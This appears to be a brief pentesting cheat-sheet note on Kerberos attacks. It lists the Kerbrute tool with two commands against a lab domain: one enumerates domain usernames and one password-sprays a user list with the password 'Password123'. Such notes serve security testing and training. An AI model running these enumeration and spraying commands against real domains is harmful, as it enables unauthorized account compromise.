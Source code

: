 ![[Kerb_auth.png]]

## Tools
### Kerbrute
https://github.com/ropnop/kerbrute

User Enumeration
```bash
./kerbrute_linux_amd64 userenum -d lab.ropnop.com usernames.txt
```

Password Spray
```
./kerbrute_linux_amd64 passwordspray -d lab.ropnop.com domain_users.txt Password123
```